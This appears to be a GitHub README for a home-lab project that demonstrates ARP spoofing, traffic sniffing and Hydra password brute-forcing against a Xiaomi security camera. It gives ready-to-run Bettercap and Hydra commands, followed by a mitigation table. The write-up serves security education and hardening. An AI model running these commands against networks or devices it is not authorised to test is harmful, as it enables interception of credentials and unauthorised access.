


# Wi-Fi Camera MITM Attack Lab

> ARP Spoofing & Man-in-the-Middle (MITM) attack simulation on a Wi-Fi-enabled IoT camera to demonstrate credential interception vulnerabilities in insecure network configurations.

## Disclaimer

**This project was conducted in a controlled lab environment on personally owned devices for educational and research purposes only.** Unauthorized access to computer systems and networks is illegal. Always obtain proper authorization before performing any security testing. The author is not responsible for any misuse of the techniques described herein.

---

## Table of Contents

- [Overview](#overview)
- [Attack Vector](#attack-vector)
- [Lab Environment](#lab-environment)
- [Attack Methodology](#attack-methodology)
  - [Phase 1 — Network Reconnaissance](#phase-1--network-reconnaissance)
  - [Phase 2 — ARP Spoofing & MITM](#phase-2--arp-spoofing--mitm)
  - [Phase 3 — Traffic Sniffing & Credential Capture](#phase-3--traffic-sniffing--credential-capture)
  - [Phase 4 — Credential Brute-Force (Conditional)](#phase-4--credential-brute-force-conditional)
- [Screenshots](#screenshots)
- [Mitigation & Hardening](#mitigation--hardening)
- [References](#references)
- [License](#license)

---

## Overview

Many consumer-grade Wi-Fi cameras transmit authentication credentials over unencrypted HTTP connections on the local network. This project demonstrates how an attacker positioned on the same network segment can leverage Layer 2 ARP spoofing to intercept this traffic via a Man-in-the-Middle (MITM) attack, capturing plaintext credentials or using brute-force techniques to recover weak passwords.

**Target Device:** Xiaomi Mi Home Security Camera  
**Attack Surface:** HTTP-based web management interface on LAN  
**Key Finding:** Credentials transmitted in plaintext over HTTP are trivially interceptable via ARP cache poisoning

## Screenshots

### Bettercap — Network Reconnaissance & ARP Spoofing



*Bettercap v2.33.0 running on Kali Linux — network probe discovering endpoints including the Xiaomi camera at `192.168.1.8`, followed by full-duplex ARP spoofing and packet sniffing capturing DNS traffic from the target.*

### Bettercap — Annotated Attack Breakdown



*Annotated terminal output highlighting key stages: target identification (Xiaomi Electronics OUI), ARP spoof configuration (`fullduplex true`, target `192.168.1.8`), and intercepted DNS queries confirming MITM position.*

### Target Device — Xiaomi Mi Home Security Camera


*The target Xiaomi Mi Home Security Camera used in the lab environment.*

## Attack Vector

```
┌──────────┐       ARP Poison        ┌──────────┐
│  Victim  │◄───────────────────────► │ Attacker │
│ (Camera) │                          │  (Kali)  │
│192.168.1.8│  ┌─────────────────┐   │192.168.1.9│
└──────────┘  │  Gateway/Router  │   └──────────┘
              │  192.168.1.1     │
              └─────────────────┘
                       ▲
                       │ ARP Poison
                       │
              Attacker intercepts all
              traffic between Camera
              and Gateway
```

## Lab Environment

| Component         | Details                                           |
|-------------------|---------------------------------------------------|
| **Attacker OS**   | Kali Linux (Rolling)                              |
| **Attack Tool**   | Bettercap v2.33.0 (built for linux amd64, Go 1.22.6) |
| **Brute-Force**   | Hydra v9.x                                        |
| **Target Device** | Xiaomi Mi Home Security Camera (802.11 b/g/n)     |
| **Target IP**     | `192.168.1.8`                                     |
| **Target MAC**    | `04:cf:8c:73:13:80` (XIAOMI Electronics, CO., LTD.) |
| **Attacker IP**   | `192.168.1.9`                                     |
| **Network**       | `192.168.1.0/24` (Home lab — isolated VLAN)       |

## Attack Methodology

### Phase 1 — Network Reconnaissance

Launch Bettercap and enumerate all live hosts on the local subnet:

```bash
sudo bettercap

# Probe the network for active endpoints
» net.probe on
```

**Output:** Bettercap's `net.probe` module sends UDP probes across the `/24` subnet and identifies active endpoints via ARP responses. The Xiaomi camera was discovered at `192.168.1.8` with MAC `04:cf:8c:73:13:80` (OUI: XIAOMI Electronics, CO., LTD.).

### Phase 2 — ARP Spoofing & MITM

Configure and launch full-duplex ARP cache poisoning against the target:

```bash
# Enable full-duplex spoofing (poison both target and gateway)
» set arp.spoof.fullduplex true

# Set the target IP (Xiaomi camera)
» set arp.spoof.targets 192.168.1.8

# Start ARP spoofing
» arp.spoof on
```

**Explanation:**
- **Full-duplex mode** poisons the ARP cache of both the target device and the gateway router, ensuring bidirectional traffic flows through the attacker machine
- The attacker's machine enables IP forwarding, transparently relaying packets to maintain connectivity and avoid detection
- The target camera now believes the attacker's MAC is the gateway, and vice versa

### Phase 3 — Traffic Sniffing & Credential Capture

Enable the network sniffer to capture all intercepted traffic:

```bash
# Start the packet sniffer
» net.sniff on
```

With the MITM position established, Bettercap's `net.sniff` module captures all HTTP traffic between the camera and any client accessing its web interface. When a user authenticates to the camera's HTTP management panel, credentials are transmitted in plaintext and captured in the sniffer logs.

**Captured traffic included:**
- DNS resolution requests from the camera (e.g., `resolver-msg-xiaomi-net-*.ap-south-1.elb.amazonaws.com`)
- HTTP Basic Authentication headers containing base64-encoded credentials
- Unencrypted API calls to the camera's management interface

### Phase 4 — Credential Brute-Force (Conditional)

If captured credentials are hashed or obfuscated rather than plaintext, use Hydra for targeted brute-force:

```bash
# HTTP Basic Auth brute-force
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.1.8 http-get / -t 16 -f

# HTTP POST form brute-force (if login form is used)
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.1.8 http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials" \
  -t 16 -f
```

**Parameters:**
| Flag | Description |
|------|-------------|
| `-l admin` | Target username |
| `-P` | Path to password wordlist |
| `-t 16` | Number of parallel threads |
| `-f` | Stop on first valid credential |
| `http-get /` | HTTP Basic Auth on root path |

## Mitigation & Hardening

| Vulnerability | Mitigation |
|---------------|------------|
| **Plaintext HTTP credentials** | Enforce HTTPS/TLS for all management interfaces; reject HTTP connections |
| **ARP cache poisoning** | Enable Dynamic ARP Inspection (DAI) on managed switches; use static ARP entries for critical devices |
| **Default credentials** | Change default username/password immediately on deployment; enforce strong password policies |
| **Lack of network segmentation** | Isolate IoT devices on a dedicated VLAN with restricted inter-VLAN routing and firewall rules |
| **No intrusion detection** | Deploy ARP spoofing detection tools (e.g., `arpwatch`, Snort/Suricata rules) |
| **Weak authentication** | Implement rate limiting, account lockout policies, and multi-factor authentication where supported |

## References

- [Bettercap Documentation](https://www.bettercap.org/docs/)
- [Hydra — THC Network Login Cracker](https://github.com/vanhauser-thc/thc-hydra)
- [OWASP IoT Security Verification Standard](https://owasp.org/www-project-iot-security-verification-standard/)
- [NIST SP 800-183 — Networks of Things](https://csrc.nist.gov/publications/detail/sp/800-183/final)
- [MITRE ATT&CK — ARP Cache Poisoning (T1557.002)](https://attack.mitre.org/techniques/T1557/002/)

## License

This project is licensed under the [MIT License](LICENSE). Use responsibly and ethically.
